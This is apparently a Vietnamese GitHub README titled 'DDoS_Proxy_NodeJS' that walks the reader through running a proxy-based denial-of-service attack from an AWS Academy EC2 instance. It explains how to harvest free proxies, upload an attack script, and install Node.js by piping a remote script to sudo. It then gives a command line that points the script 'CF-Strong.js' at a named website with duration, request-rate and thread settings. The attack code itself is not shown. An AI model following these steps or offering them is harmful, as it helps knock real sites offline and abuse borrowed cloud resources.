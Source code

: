 # DDoS_Proxy_NodeJS
https://awsacademy.instructure.com/courses/74031/modules/items/6643523

website lấy proxy http(tạo một tệp txt rồi copy hết tất cả trong trang web này)
https://api.proxyscrape.com/v2/?request=displayproxies&protocol=http&timeout=10000&country=all&ssl=all&anonymity=all

https://upload-vpn.vinahost.vn/ (website upload file len terminal remote tren website)
Kéo thả file proxy và script chạy(đã gửi) lên trang web

Linux
-----------------------------------------------------------------
Qua terminal bên ec2
Copy lệnh dưới và dán vào:
Sudo apt update -y
Curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
Sudo apt-get install nodejs -y

Tiếp theo qua website upload copy link file mà bạn đã upload
Lệnh upload trên terminal: curl -O link --insecure
Vd: curl -O https://example.com/file.js --insecure

-----------------------------------------------------------------

Sau khi upload đủ cả 2 file dùng: ls để kiểm tra xem đã có 2 file vừa upload chưa
Dùng tiếp lệnh npm i colors
-> Để cài đặt module cho script đuôi .js

Lệnh chạy script
node file.js link thời_gian requests/proxy threads(luồng) proxy_file
vd: node CF-Strong.js http://www.thayphet.net/ 300 64 12 Proxy.txt

Cách kiểm tra số luồng hiện có trên terminal: lscpu
Kiếm dòng: Thread(s) per core:

-----------------------------------------------------------------
Video demo: https://drive.google.com/drive/folders/1-1xk5OsQfggS5ElGYyeTKvF5iki3IOnp?usp=sharing
